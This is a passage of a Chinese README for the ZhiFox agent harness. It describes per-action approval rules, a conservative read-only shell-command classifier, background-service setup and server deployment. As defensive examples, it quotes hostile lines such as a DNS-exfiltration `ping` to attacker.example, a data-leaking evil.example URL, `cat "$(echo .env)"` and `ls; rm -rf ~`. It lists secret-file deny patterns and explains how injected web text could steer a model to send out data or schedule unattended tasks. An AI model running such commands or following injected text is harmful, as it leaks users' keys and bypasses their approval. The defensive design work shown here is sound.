| 添加、删除提醒 | 直接执行（到时间只弹出一条提醒：不调用模型，不花钱） |
| 添加、删除让助手自己去做的定时任务 | 先问你，并显示时间表和指令（它以后会在没人看着的时候自己花钱） |
| 读取工作目录里的文件 | 直接执行 |
| 读取工作目录之外的文件 | 先问你。选了 **自动允许只读命令** 时直接执行，除非是 `data/`、密钥文件，或者看起来存着密钥的地方 |
| 读取 `data/` 里的文件（保存的会话、设置） | 先问你，即使 `data/` 就在工作目录里 |
| 创建、修改任何文件 | 先问你，并显示要写入的内容 |
| 执行任何 shell 命令 | 先问你，并显示完整的命令。选了 **自动允许只读命令** 时，智狐看得出只是看的命令直接执行（见[只读的命令](#只读的命令以及为什么判断得这么保守)；Windows 上每条照样问） |
| 联网搜索 | 直接执行（在 Anthropic 的服务器上进行，不碰你的电脑），次数有上限 |
| 调用 MCP 服务器的工具 | 先问你，并显示要发过去的参数；你把这个工具（或整个服务器）设成"不用问"的除外 |
| 浏览器：读页面、截图、滚动、换标签页 | 直接执行（在智狐自己的浏览器里，里面没有你的任何登录） |
| 浏览器：打开这段对话里去过的网站；后退、前进、刷新 | 直接执行 |
| 浏览器：打开这段对话里还没去过的网站 | 先问你。允许以后，这段对话里再去这个网站就不再问 |
| 浏览器：点普通的链接、按钮 | 直接执行 |
| 浏览器：点会提交表单的按钮、名字像"购买""支付""发送""删除""确认"的按钮或链接（中、英、西三种语言都认），或者点别的网站嵌进来的框里的东西 | 先问你，并显示是哪个按钮、在哪个网页上 |
| 浏览器：输入文字、填表单（以及会打出字的按键） | 先问你，并显示网页、输入框和要输入的内容 |
| 浏览器：往密码框、银行卡、别的网站嵌进来的框里输入 | 不管选了哪一档都要问，卡片上带着警告。密码从不显示在卡片上，只显示有几个字 |
| 浏览器：打开不是网页的地址（`about:`、`data:`……） | 每次都问，不管选了哪一档 |
| 浏览器：打开 `file:`、`chrome:`、`devtools:`、`javascript:`、`view-source:` 开头的地址 | 直接拒绝，并告诉模型为什么 |
| 操作整台电脑：截图、放大 | 先问你；"自动允许只读命令""自动允许改文件"不改变这一条。在网页对话里，卡片上可以选"这段对话里截图不再问"。选了"全部自动允许"时直接执行 |
| 操作整台电脑：点击、拖动、移动鼠标、滚动、打字、按键 | 先问你；"自动允许只读命令""自动允许改文件"不改变这一条。卡片上写着位置（是哪个程序的窗口）、要按的键或要打的字。在网页对话里，卡片上可以选"这段对话里的点击、打字不再问"，并写明风险。选了"全部自动允许"时直接执行 |
| 操作整台电脑：危险的组合键（Mac 上的 ⌘Q、⌘⌥Esc，别的系统上的 Alt+F4、Ctrl+Alt+Del……） | 每次都问，不管选了哪一档、这段对话里选过什么，卡片上带着警告，没有"不再问"可选 |
| 操作整台电脑：等一等、看鼠标在哪儿 | 直接执行（什么都不看、什么都不碰） |
| 操作整台电脑：不许碰的程序在最前面（或者在点击的位置上）、屏幕正被另一个运行占着 | 不问，直接拒绝，并告诉模型为什么 |
| 把文件发到聊天里（`send_file`，只有聊天通道里有） | 先问你，在聊天里（网页上也能答），这个通道选了"全部自动允许"的除外。卡片上写着文件、大小、是不是当照片发、说明，以及发到哪个聊天。`data/` 里的文件照样问、卡片上带着提醒，和读它一样。保存密钥的文件（`.env`、`data/mcp.json`、`data/channels.json`）不管哪一档都不发；平台不收的（太大、种类不对）不问，直接告诉模型 |

MCP 的工具是别人写的程序，它做什么智狐看不到，它说自己"只读"也没法验证，所以默认每次都问。
在"扩展 → MCP"里可以把某一个工具、或者整个服务器设成"不用问"。这是你对一个具体工具做的决定，
所以记在 `data/mcp.json` 里，在任何模式下都算数；这些调用在对话里照样标着"自动允许"。
唯一的例外是定时任务自己运行的时候：它只按这个任务自己的那一档来，所以除非这个任务选了"全部自动允许"，
MCP 的调用也会停下来等你批准。

浏览器的这几条规矩，看的都是同一个问题：这一步会不会把东西送出去？"看"不会：这个浏览器里没有你的任何账号。
输入会（输入的可能是你的信息），提交表单会，去一个新的网站也会：网址本身就能带走信息，比如 `evil.example/?data=你的邮件`。
点页面上已有的链接不问：链接是网站自己放在那里的，带不走页面本来不知道的东西。密码和银行卡是被带偏的模型最想要的，
所以哪怕选了"全部自动允许"也要问；往别的网站嵌进来的框里输入也是（智狐看不到框里是什么，常见的是付款信息）。
"这段对话里允许过的网站"只记在这段对话自己的浏览器上，换一段新对话就从头再问。定时任务和聊天通道按同样的规矩来，档位用它们自己的那一档。

往聊天里发文件也要问，是同一个道理：文件离开了这台电脑，到了聊天平台的服务器上，收不回来；就算是发到你自己的聊天里，
想发的也可能是被网页、文件里的一句话带偏的模型。"自动允许改文件"放开的是改文件，不是往外发，所以选了这一档照样问。

操作整台电脑默认的规矩更严：它碰到的是你的整台电脑，屏幕上的任何文字都可能把模型带偏，而智狐只看得到像素，没法告诉你点下去会发生什么
（见上面的"操作整台电脑：看你的屏幕、动你的鼠标键盘"）。所以放开命令和文件的那几档不放开它。
可是几十步里每一步都问，会让人不看就点"允许"，所以放不放宽由你定：在网页的对话里，确认卡片上可以选截图不再问、
或者点击和打字不再问，只管你正看着的这一段对话（换一段新对话从头再问；定时任务和聊天通道没有这个选项）；"全部自动允许"也包括操作电脑。
永远不放宽的：危险的组合键每次都问，不许碰的程序直接拒绝，动手之前照样最后看一眼，顶栏上的"停止"一直都在。

拒绝时可以直接输入一句话（比如"不要删，改成移到废纸篓"），这句话会转告给模型。

不想每次都点"允许"的话，可以放宽"问不问"（网页：输入框下面的"每次确认"按钮；终端：`/auto` 命令）：

| 选项 | 终端命令 | 效果 |
|---|---|---|
| 每次确认（默认） | `/auto ask` | 上表里写着"先问你"的，每一次都问 |
| 自动允许只读命令 | `/auto readonly` | 只是看的命令（`ls`、`cat`、`grep`、`df`、`ps`、`git status`、`git log`、`systemctl status`、`journalctl`、`docker ps`……）、你自己加的不用问的命令、读工作目录之外的文件，不再问；会改动东西的命令、改文件、读 `.env`、`data/` 和 `~/.ssh` 这类地方、MCP、浏览器的操作、发文件、操作电脑照常问 |
| 自动允许改文件 | `/auto edits` | 创建、修改工作目录里的文件不再问；执行命令、读写工作目录之外的文件、读 `data/`、浏览器的操作、操作电脑照常问 |
| 全部自动允许 | `/auto all` | 都不再问，操作电脑也算在内；上表里写着"不管选了哪一档"的浏览器操作、操作电脑时危险的组合键除外 |

放宽的只是"问不问"，没有问你就执行的那些，网页上的工具卡片会标"自动允许"，终端里也会注明；只读的命令标的是
"自动允许（只读）"，你自己加的命令是"自动允许（你加的命令）"。
这个选择不会保存，每次启动都回到"每次确认"，免得开了忘记关。

定时任务不跟着这里的选择走。每个"让助手去做"的任务有它自己的一档，也是这四个选项，在编辑任务时选、跟着任务存下来
（默认"每次确认"）：在对话里放宽的意思是"我在旁边看着，你做吧"，半夜三点任务自己跑的时候，这句话并不成立。
助手替你添加的任务一律是"每次确认"，它的工具也没有办法改，只有你自己能在页面上改：不然被网页上一句话带偏的模型，
就能给自己定一个"每天半夜不问就执行任何命令"的任务（见上面的"定时任务和重复任务"）。

另外有两条不经过询问的硬性限制：助手不能读写 `.env`（里面是各家的 API 密钥），
执行命令时也看不到这些密钥。

需要了解的风险：确认提示是你和模型之间唯一的关卡。批准一条命令之前请看清楚它要做什么，
尤其是在助手刚读过网页或陌生文件之后，因为那些内容里可能藏着误导模型的话。

#### 只读的命令，以及为什么判断得这么保守

**自动允许只读命令** 是为一种情况准备的：你在手机上照看一台服务器（"磁盘还剩多少？""nginx 还在跑吗？""给我看它日志的最后 50 行"），
每个 `df -h` 都要点一下"允许"太烦，可选"全部自动允许"又会让什么命令都不问就跑。选了这一档，只是看的命令马上执行，
标着"自动允许（只读）"；会改动东西的命令照常问你，在对话里、在任务里、在聊天里都一样。它排在"每次确认"和"自动允许改文件"中间，
因为它最坏也只是让模型看到了什么（值得藏起来的地方另外拦着，见下面），而改文件是真的会改掉东西。
它不包括改文件，"自动允许改文件"也不包括只读的命令：两档放开的是两样不同的东西。

**Windows 上这一档一条命令都不放过。** 那里的命令在 PowerShell 里运行，下面说的全是照着 bash 写的。PowerShell 有它自己的一套写法
（`@(…)` 和 `$(…)`、`{ 脚本块 }`、`&` 调用、反引号转义、`--%`、`Get-Content` 能读的 `HKLM:`、`Env:` 这类"驱动器"），
而且几乎每个命令都有别名（`ls`、`cat`、`rm` 都有），按 bash 的规矩看着无害的一条，在 PowerShell 里可能是另一回事。
与其去猜，Windows 上每条命令都问，你自己加的也一样，页面上写明为什么。读工作目录之外的文件不问，这一条照样算。

智狐怎么判断（[harness/commands/](harness/commands/)），一步一步：

1. **拆词**（[words.py](harness/commands/words.py)）。照 bash 的样子把命令拆成词，但只认 bash 里最简单的那一小部分：
   普通的词、单引号、里面没有 `$` 和反引号的双引号、反斜杠转义、词开头的 `~`、把几段连起来的 `|`。
   别的（`;`、`&&`、`||`、`&`、`>`、`<`、`$(…)`、`` ` ``、`$VAR`、`*`、`?`、`[`、`{`、开头的 `名字=值`、注释、换行、零宽空格这类看不见的字符）
   一律算"看不清"，照常问你。每一样都会让你看到的和实际运行的不一样：`cat "$(echo .env)"` 读的是 `.env`，
   `ls; rm -rf ~` 是两条命令，`echo hi > notes.txt` 会覆盖一个文件。
2. **认程序**（[rules.py](harness/commands/rules.py)）。只有内置名单里的程序才算，每个程序一条"哪些选项可以用"的规矩：
   `find` 不能带 `-exec`、`-delete`、`-fprint`；`sed` 不能带 `-i`，脚本也只能由几种最简单的命令组成（不能有 `w`、`r`、`e`）；
   `awk` 的程序里任何地方都不能有 `system`、`getline`、`>`、`|`；`sort` 不能带 `-o`；`git` 只认 `status`、`log`、`diff`、`show`、
   `branch`（列出来）和另外几个，子命令前面不能有选项（`git -c core.pager=…` 能运行任何东西）；`journalctl` 不能带 `--vacuum…`；
   `docker ps|logs|images`；`kubectl get|describe|logs`，而且不碰 Secret；`crontab` 只认 `-l`。
   GNU 的程序认长选项的缩写（`sort --out=x` 就是 `--output=x`），所以不许用的长选项连所有缩写一起不许；
   macOS 上 BSD 的程序碰到第一个文件就不再认选项（`uniq a.txt -c` 会写出一个叫 `-c` 的文件），所以文件后面像选项的词也当文件算。
   shell 和解释器（`bash`、`python -c`）、能运行任何命令的包装（`sudo`、`xargs`、`nohup`）、翻页的（`less` 能运行命令）、
   `env` 和 `printenv`（环境变量里常常有密钥）永远不算只读。能联网的也不算（`curl`、`ping`、`dig`、`ssh`）：
   一条能联网的"只读"命令，能把另一条刚读到的东西送出去，连要查的域名本身都能带走数据（`ping <密钥>.attacker.example`）。
3. **看路径**（[paths.py](harness/commands/paths.py)）。每一个词都当作可能的路径（选项的值、`git show HEAD:.env` 里 `HEAD:` 后面的部分也算），
   顺着符号链接找到真正的位置，比较时不分大小写，因为 macOS 上 `.ENV` 就是 `.env`。读智狐的密钥文件、`data/`、
   看起来存着密钥的地方（`~/.ssh`、`~/.aws`、`.env*`、`*.pem`、`id_rsa*`、`*credential*`、shell 的历史记录、`.git/config`、
   `/proc/*/environ`、`/dev`），哪怕只是 `cat`，也照常问。会读整个文件夹的命令（`grep -r`、`rg`、两个文件夹的 `diff`），
   文件夹里面有这些、有指向别的文件夹的符号链接、或者大得看不完（`READONLY_SCAN_ENTRIES`），也问；
   只列名字的（`find`、`ls -R`、`du`、`tree`），文件夹里面有 `data/` 就问。
4. **管道。** `ps aux | grep nginx` 只有在每一段单独看都是只读的时候才算。

为什么这么严？两种错的代价不一样。把一条无害的命令拿来问你，代价是你多点一下；把一条不无害的放过去，代价可能是一个被删掉的文件夹、
一个被送给模型厂商的密钥。所以拿不准的一律"问"，判断时从不去猜一条巧妙的命令到底会做什么。代价是有些无害的命令照样要问
（`awk '$3 > 100'` 里有 `>`；在有 `.env` 的项目里 `grep -r TODO .`）。[那张测试表](tests/test_commands.py)里正反两边列了几百条命令，
包括这些代价，以及写它的时候找到的每一个漏洞。

**你自己加的"不用问的命令"。** 你信得过、但不是只读的命令（`npm test`、`make check`、`./scripts/status.sh`），可以在
**设置 → 不用问的命令** 里加（"要不要先问你"的窗口里也有入口），或者用 `harness commands add "npm test"` / `list` / `remove`。
按开头的几个词比：`npm test` 包括 `npm test -- --watch`，不包括 `npm testing`，所以只加你放心它后面跟着任何东西的命令。
加进来的命令照样经过拆词（不能有 `;`、`|`、`$(`……）；能运行任何东西的程序（`bash`、`sudo`、`env`、`xargs`、不写脚本的解释器）加不进来；
在管道里一律不算（`cat x | python …` 会运行管道送进来的任何东西）；路径的检查照旧。清单存在 `data/commands.json` 里（权限 600），
和 `.env`、`mcp.json` 一样，文件工具既读不了也改不了它，模型也没有任何能改它的工具。
文件变了智狐会重新读，所以服务开着的时候也能用 `harness commands add`。

能调的数在 `config.py` 里：`READONLY_MAX_CHARS`（2000，再长的一律问）、`READONLY_SCAN_ENTRIES`（3000）、
`MAX_ALLOWED_COMMANDS`（100）、`MAX_ALLOWED_COMMAND_CHARS`（200）、`ALLOWED_COMMANDS_DEFAULT`（空的）。
要知道的局限：像密钥的名字是猜的，所以它只会让命令多问，从不放行；在智狐之外建的、指向 `data/` 里文件的硬链接认不出来
（指向密钥文件的认得出）；这一档会让模型读到工作目录之外的文件，"每次确认"和"自动允许改文件"不会。

## 在后台一直运行

用 `uv run harness --web` 开起来的智狐，是那个终端的子进程：终端关了，或者开它的 Claude Code 会话结束了，它也跟着退出，
网页打不开，聊天机器人也没人应。想让它一直开着，就把它交给操作系统里本来就管这件事的程序，也就是"服务管家"：
macOS 上是 **launchd**，Linux 上是 **systemd**，Windows 上是 **任务计划程序**。一条命令就够了：

```bash
uv run harness service install     # 装上并启动：以后每次登录都自动启动，出错退出后自己重启
uv run harness service open        # 打开它的网页（带口令的地址替你读出来）
uv run harness service status      # 在不在运行、进程编号、端口、几个文件夹、日志在哪儿、最近的警告和错误
uv run harness service logs -f     # 跟着看日志（Ctrl-C 不看了）；-n 200 多看几行
uv run harness service stop        # 现在停下（下次登录时还会自动启动）
uv run harness service start       # 再开起来
uv run harness service restart     # 重启，比如改了 .env、升级了智狐之后
uv run harness service uninstall   # 停下，以后登录时也不再自动启动（数据和日志都留着）
```

在项目文件夹里运行它们。`install` 可以加 `--no-web`（只运行聊天通道和定时任务，不开网页）、`--port 9000`（默认 8765；
8765 被占用时自动换一个空闲的）和 `--workspace /某个/文件夹`（助手的工作目录，默认是现在所在的目录）。
`install` 重复运行也没关系：设置没变就什么都不动，变了就停下旧的、换上新的。网页上的 **设置 → 后台运行** 会显示智狐现在是哪种开法；
跟着终端的时候，那里有装成后台服务的命令，可以直接复制。

**从手动开的智狐换过来。** 一个数据目录同一时间只能给一个智狐用，所以先把手动开的那个关掉，再装：

```bash
# 在运行着 `uv run harness --web` 的那个终端里按 Ctrl-C。
# 是在 Claude Code 的会话里开的？结束那个会话；或者找到它的进程，让它停下：
pgrep -fl "harness --web"          # 打印出进程编号
kill -INT <进程编号>               # 和按 Ctrl-C 一样：智狐存好盘再退出
cd /path/to/zhifox-agent-harness
uv run harness service install
uv run harness service open
```

数据目录还被占着的话，`install` 不装，并且说清楚是谁占着（哪一种智狐、进程编号），免得装上一个一开起来就退出、
每隔十秒又被重新开一次的服务。反过来也一样：服务开着的时候，你在终端里运行 `uv run harness --web`，它会告诉你智狐正作为后台服务运行，
用 `uv run harness service open` 打开它的页面，想在终端里另开一个就先 `uv run harness service stop`。

Windows 上，手动开的智狐在它的 PowerShell 窗口里按 Ctrl-C 关掉；找不到那个窗口的话，这样找到它：
`Get-CimInstance Win32_Process -Filter "Name like 'python%'" | Where-Object CommandLine -like '*harness*' | Select-Object ProcessId, CommandLine`。

### Windows 上：任务计划程序

`uv run harness service install` 在任务计划程序里建一个叫 `ZhiFox-你的用户名` 的任务（是隐藏的任务：在**查看 → 显示隐藏的任务**里才看得到）。
你登录时启动，以你的身份运行，不保存密码、不要管理员权限，不限运行时间。上面那几条命令用法都一样。

- **出错退出后重启。** 任务计划程序自己的"失败时重新启动"只在任务*没能启动*时才管用，程序出错退出它是不管的。
  所以任务里运行的是一个小小的看护程序（[service/supervise.py](harness/service/supervise.py)，用 `pythonw.exe`，不弹黑色的窗口），
  由它来运行智狐：出错退出后等 10 秒再开；退出码是 2（设置有问题，重启也没用，看日志）时不再开。任务计划程序的"失败时重新启动"留着当第二道保险。
- **好好地停下。** 在任务计划程序里"结束"任务，进程会被直接结束。`uv run harness service stop` 不这样：它在数据目录里放一个"请停下"的标记，
  看护程序关上智狐的输入，智狐停下正在做的事、存好盘再退出。30 秒还没停下，才退一步去结束任务。
- **日志** 在 `data\logs\service.log`，每个文件 1 MB，留三个旧的（`.1` 到 `.3`），和 macOS 上一样。`uv run harness service logs -f`
  跟着看，不需要 `tail`。
- **环境变量。** 任务没法设环境变量，所以数据目录、`.env` 的位置作为参数交给看护程序（只有路径，从来没有密钥）。
  密钥和别的系统上一样，智狐启动时从 `.env` 里读。路径里不能有 `%`（任务计划程序会把 `%名字%` 展开）。
- **什么时候停。** 它以你的身份运行，所以你注销时它就停了；注销、关机时它来不及好好地收尾。

### launchd 和 systemd 是怎么让它一直开着的

两个服务管家的做法一样：每个程序一个小小的设置文件，照着它开、照着它看着：

| | macOS：launchd | Linux：systemd |
|---|---|---|
| 设置文件 | `~/Library/LaunchAgents/io.github.akxan.zhifox.plist`，plist（XML 写的） | `~/.config/systemd/user/zhifox.service`，unit（INI 的写法） |
| 登录时启动 | `RunAtLoad`：launchd 读到这个文件就开起来，而每次登录它都会读这个文件夹 | `WantedBy=default.target` 加上 `systemctl --user enable`：跟着你的登录会话开起来 |
| 出错后重启 | `KeepAlive` 里的 `SuccessfulExit: false`：只要不是以退出码 0 退出的，就再开 | `Restart=on-failure`：同样的规矩 |
| 两次重启之间 | `ThrottleInterval`：10 秒 | `RestartSec=10` |
| 日志 | `StandardOutPath` 和 `StandardErrorPath`：`data/logs/service.log` | journald：`journalctl --user -u zhifox` |
| 智狐用到的命令 | `launchctl bootstrap gui/<uid> <plist>`、`bootout`、`kickstart -k`、`list`（macOS 10.10 以前是 `load`、`unload`） | `systemctl --user daemon-reload`、`enable --now`、`stop`、`restart`、`disable --now`、`show` |

"只有出错退出才重启"正是 `stop` 能停得下来的原因：收到 SIGTERM 时，智狐把手上的事收好尾、存好盘，以退出码 0 退出，
服务管家就不会马上又把它开起来；崩溃了、被 `kill -9` 了、出错退出了，才会被重新开起来。退出码 2 的意思是设置有问题
（比如 `channels.json` 读不出来），重启也没用，所以 systemd 不再重试（`RestartPreventExitStatus=2`），`status` 会说清楚每个退出码是怎么回事。
LaunchAgent 在你登录着的时候运行：登录时开起来，不是开机时。Mac 睡着的时候智狐也睡着，醒来以后接着收那段时间里的消息。

项目在 `/Users/you/zhifox` 时写出来的 plist（这里排得紧凑一些；真正的文件一行一个键或者值，按字母排）：

```xml
<dict>
  <key>EnvironmentVariables</key>
  <dict>
    <key>HARNESS_DATA_DIR</key> <string>/Users/you/zhifox/data</string>
    <key>HARNESS_ENV_FILE</key> <string>/Users/you/zhifox/.env</string>
    <key>LANG</key>             <string>zh_CN.UTF-8</string>
    <key>PATH</key>             <string>（装的时候你终端里的 PATH）</string>
    <key>PYTHONUTF8</key>       <string>1</string>
  </dict>
  <key>KeepAlive</key>         <dict><key>SuccessfulExit</key><false/></dict>
  <key>Label</key>             <string>io.github.akxan.zhifox</string>
  <key>ProgramArguments</key>
  <array>
    <string>/Users/you/zhifox/.venv/bin/python</string> <string>-P</string> <string>-m</string> <string>harness</string>
    <string>--workspace</string> <string>/Users/you/zhifox</string>
    <string>serve</string> <string>--web</string> <string>--service</string> <string>launchd</string>
  </array>
  <key>RunAtLoad</key>         <true/>
  <key>StandardErrorPath</key> <string>/Users/you/zhifox/data/logs/service.log</string>
  <key>StandardOutPath</key>   <string>/Users/you/zhifox/data/logs/service.log</string>
  <key>ThrottleInterval</key>  <integer>10</integer>
  <key>WorkingDirectory</key>  <string>/Users/you/zhifox</string>
</dict>
```

项目在 `/home/you/zhifox` 时写出来的 unit：

```ini
[Unit]
Description=ZhiFox (智狐)
Documentation=https://github.com/Akxan/zhifox-agent-harness#run-it-in-the-background

[Service]
Type=simple
WorkingDirectory=/home/you/zhifox
ExecStart="/home/you/zhifox/.venv/bin/python" "-P" "-m" "harness" "--workspace" "/home/you/zhifox" "serve" "--web" "--service" "systemd"
Environment="HARNESS_DATA_DIR=/home/you/zhifox/data"
Environment="HARNESS_ENV_FILE=/home/you/zhifox/.env"
Environment="LANG=zh_CN.UTF-8"
Environment="PATH=…"
Environment="PYTHONUTF8=1"
Restart=on-failure
RestartSec=10
RestartPreventExitStatus=2
KillMode=mixed
TimeoutStopSec=30

[Install]
WantedBy=default.target
```

- **运行的是什么。** 项目自己的虚拟环境：`.venv/bin/python -P -m harness … serve --web`。启动时不经过 `uv`，所以登录的时候
  不会去同步、下载什么。`-P` 让 Python 找模块时不看工作目录：你的工作目录里要是放着一个 `json.py`，它顶替不了标准库里的那个。
  每个参数单独一项，不经过 shell，路径里有空格也没事。`--service` 告诉智狐"你是后台服务"：数据目录的锁上记着这一点，
  网页上会显示出来，macOS 上日志由智狐自己写进文件。`KillMode=mixed` 是停下时先只给智狐发 SIGTERM，由它自己停下它开的命令、存好盘。
- **这两个文件里没有密钥。** 只有路径和开关，权限 644（launchd 和 systemd 都要求这样）。API 密钥留在 `.env` 里
  （或者 `HARNESS_ENV_FILE` 指的那个文件），智狐启动时自己读；机器人的 token 留在 `data/channels.json` 里。
- **不继承你终端里的环境变量。** launchd 和 systemd 开智狐的时候，你的 `.zshrc`、`.bashrc` 都没有运行过。服务里只有数据目录、
  `.env` 的位置，以及装的时候的 `PATH` 和 `LANG`；别的（`HTTPS_PROXY`、`HARNESS_MODEL`、只 `export` 过的 API 密钥）都写进 `.env`。
  `install` 会列出只在终端里设置了、`.env` 里没有的那些，只说名字，从不打印值。
- **网页和它的口令。** 网页照样只监听 127.0.0.1。后台服务的口令存在 `data/.web-token` 里（只有你的账号能读，导出时不带），
  重启前后不变：更新代码、`harness service restart` 以后，开着的标签页刷新一下就能接着用。口令防的是这台电脑上的别的账号、
  和你浏览器里别的网站；用你的账号运行的程序本来就读得到 `data/`，口令放在旁边并没有多给它什么。卸载服务时删掉口令，
  下次装上换一个新的（也可以删掉这个文件再重启）。在终端里开的 `harness --web` 照旧每次启动换一个。
  没有终端可以打印，地址就写在 `data/.web-address` 里（只有你的账号能读，退出时删掉），从不写进日志。
  `uv run harness service open` 读它、打开浏览器，打印出来的地址不带口令；`open --print` 打印完整的地址，给另一台机器上的浏览器用（走 SSH 隧道）。
- **日志。** macOS 上是 `data/logs/service.log`，每行带着日期。写到 1 MB 智狐就换一个新文件，旧的留三份（`service.log.1` 到 `.3`），
  所以日志不会超过 4 MB 左右；launchd 自己从来不管它多大。Linux 上在 journald 里：`journalctl --user -u zhifox -f`。
  两边都可以用 `status` 看最近几条警告和错误。API 密钥和机器人的 token 都换成 `<hidden>`，消息的内容从来不写进日志。
- **macOS 和受保护的文件夹。** 项目或者工作目录在"文稿""桌面""下载"或者 iCloud 云盘里的话，macOS 可能会在第一次时问你
  要不要允许 python 访问这个文件夹（点"好"），也可能直接拦下（日志里会出现 `Operation not permitted`）。`install` 和 `status`
  都会提醒。最省事的办法是把项目放到别处，比如 `~/zhifox`；另一个办法是在 **系统设置 → 隐私与安全性 → 完整磁盘访问权限** 里
  加上 `status` 给出的那个 python，不过这样一来，用这个 python 运行的所有程序都能读你全部的文件。
- **Linux 上没人登录的时候。** 默认情况下，你退出登录时 systemd 会把你这个账号的服务一起停掉。想让智狐没人登录时也开着、
  开机就开起来：`sudo loginctl enable-linger $USER`。`status` 会告诉你开了没有。服务器上用一个专门的账号的话，
  也可以用下面[部署到服务器](#部署到服务器)里的系统服务。

## 部署到服务器

智狐可以住在一台 Linux 服务器上，听你的机器人吩咐（"磁盘还剩多少？""今天早上以来 nginx 的日志里有没有报错？"
"把 worker 重启一下"）。服务器上要有 Python 3.11 以上的版本和 [uv](https://docs.astral.sh/uv/)，能用 HTTPS 访问模型厂商的接口和
你用的聊天平台（`api.telegram.org`，`discord.com` 和 `gateway.discord.gg`，`slack.com` 和 `wss-*.slack.com`，`open.feishu.cn`，
`api.dingtalk.com`，`api.bot.qq.com`）；不需要开放任何入站的端口。

```bash
git clone https://github.com/Akxan/zhifox-agent-harness.git ~/zhifox && cd ~/zhifox
uv sync
echo 'ANTHROPIC_API_KEY=sk-ant-…' >> .env && chmod 600 .env    # 或者别家的密钥
uv run harness channels setup telegram     # 粘贴机器人的 token（输入时不显示），或者先设好 TELEGRAM_BOT_TOKEN
uv run harness channels pair telegram      # 打印一个 6 位配对码；把它发给你的机器人，等到显示"配对成功"
uv run harness channels approval telegram readonly    # ask | readonly | edits | all（默认是 ask）
uv run harness commands add "npm test"     # 可选：你自己加的、在 readonly 那一档里不用问的命令
uv run harness channels status
```

同样的命令也认 `discord`、`slack`、`feishu`、`dingtalk`、`qq`。`setup` 会印出这个平台的步骤，一项一项地问（密钥输入时不显示）；
也可以先放在环境变量里（`DISCORD_BOT_TOKEN`，`SLACK_BOT_TOKEN` 和 `SLACK_APP_TOKEN`，`FEISHU_APP_ID` 和 `FEISHU_APP_SECRET`，
`DINGTALK_CLIENT_ID` 和 `DINGTALK_CLIENT_SECRET`，`QQ_APP_ID` 和 `QQ_APP_SECRET`），或者从标准输入传进来，一行一项。
飞书和钉钉要先装它们的 SDK：`uv sync --extra feishu --extra dingtalk`（以后运行 `uv sync` 时也带上同样的 `--extra`，
不然它们会被卸掉）。

然后把它作为服务运行。如果你是用自己的账号登录这台服务器的，`uv run harness service install` 会替你装好 systemd 的
*用户服务*（见上面的"在后台一直运行"；再加上 `sudo loginctl enable-linger $USER`，退出登录以后它也照样开着）。
要用一个专门的、没有特权的账号运行，就写一个系统服务，配置文件是 `/etc/systemd/system/zhifox.service`：

```ini
[Unit]
Description=ZhiFox (chat channels and scheduled tasks)
After=network-online.target
Wants=network-online.target

[Service]
User=zhifox
# 工作目录：助手读写文件、执行命令的地方。要想清楚了再选
WorkingDirectory=/srv/app
ExecStart=/home/zhifox/.local/bin/uv run --project /home/zhifox/zhifox harness serve
# 各家的 API 密钥。智狐自己也会读项目里的 .env；机器人的 token 在 channels.json 里，不在这里
EnvironmentFile=/home/zhifox/zhifox/.env
Environment=HARNESS_DATA_DIR=/home/zhifox/zhifox-data
Restart=on-failure
RestartSec=5

[Install]
WantedBy=multi-user.target
```

```bash
sudo systemctl daemon-reload && sudo systemctl enable --now zhifox
journalctl -u zhifox -f        # 看日志；加上 `-p warning` 只看警告和错误
```

- **工作目录。** 助手的文件工具和 shell 命令都从这里开始，所以聊天里说的"这个文件夹"指的就是它。可以用 `WorkingDirectory=` 设，
  也可以先 `cd` 过去，或者用 `harness --workspace /srv/app serve`。
- **数据。** `HARNESS_DATA_DIR`（默认是项目里的 `data/`）里放着会话、记忆、任务和 `channels.json`。
  一个数据文件夹同一时间只能给一个智狐用。服务运行的时候，`harness channels …` 这些命令照样能用：它们在文件锁的保护下改
  `channels.json`，服务两秒之内就会发现。服务开着的时候配对，配对码由服务来收；没开着的话，命令自己连上 Telegram，
  一直等到配对成功。
- **日志。** 写在 stderr 上的普通文字：输出的不是终端时不带颜色代码；在 journald 下每行前面加 `<6>` / `<4>` / `<3>`
  这样的级别标记，`journalctl -p` 才能按级别筛。API 密钥和机器人的 token 都换成 `<hidden>`，消息的内容从来不写进日志。
- **停止。** `systemctl stop` 发出 SIGTERM：智狐不再接收消息，停下正在进行的对话和任务运行（每个工具调用照样补上结果），
  存好会话（以及 Telegram 的消息读到了哪里），以退出码 0 退出。数据文件夹已经有一个智狐在用、或者端口被占用时，退出码是 1；
  `channels.json` 读不出来时是 2（修好或者删掉这个文件；`Restart=on-failure` 只会一遍一遍地重试）。
- **服务器上的网页界面。** `harness serve --web` 会把网页界面也开起来，但仍然只监听 127.0.0.1：它能在这台机器上执行命令，
  所以永远不对外开放。要用的话走 SSH 隧道：`ssh -L 8765:127.0.0.1:8765 你的服务器`，然后打开带口令的那个地址。
  没有终端的时候，这个地址不写进日志（能读日志的人都能拿它来用）；它在 `$HARNESS_DATA_DIR/.web-address` 里，
  只有你的账号能读。服务器上没有文件管理器，所以 **在访达中显示** 按钮改成告诉你文件的完整路径。
- **网络连不上？** 设置 `HTTPS_PROXY`：HTTPS 请求和手写的 WebSocket 客户端（Discord、Slack、QQ）都会走它（用 CONNECT 的
  HTTP 代理）。Telegram 还可以把 `TELEGRAM_API_BASE` 指向一个自己搭的 Bot API 服务器。飞书 SDK 的长连接不走代理。
- **更新。** `cd ~/zhifox && git pull && uv sync && sudo systemctl restart zhifox`（用了飞书、钉钉的话，`uv sync` 带上
  `--extra feishu` / `--extra dingtalk`）。数据和 `.env` 都不会被动到。

远程运维的安全模型：只为配对过的那个账号服务（陌生人得不到回复，群聊不理，配对码 10 分钟后或者猜错 5 次就作废）；
默认的确认方式是 **每次确认**，每次都先给你看完整的命令和工作目录，你再点"允许"；**自动允许只读命令** 只放开只是看的命令；
**全部自动允许** 会先提醒你，
而且要一个通道一个通道地有意去选；同一个聊天里一次只跑一轮，`/stop` 能停下它，连同正在运行的命令；
机器人的 token 和应用的密钥只存在 `channels.json` 里（权限 600），从不发给浏览器或模型，导出时遮住，日志和出错信息里都换掉，
助手的文件工具在任何模式下都打不开这个文件；shell 命令的环境里看不到 `TELEGRAM_BOT_TOKEN`、别的平台存密钥的那几个环境变量
和各家的 API 密钥。你的聊天账号成了这台服务器的一把钥匙，所以要保护好它（开两步验证），并且给这个服务用一个专门的、没有特权的用户。

## 数据存在哪里

**只有你自己的账号能读。** macOS 和 Linux 上，`data/` 和里面的文件夹建出来就是 700，文件是 600。Windows 没有这种权限位
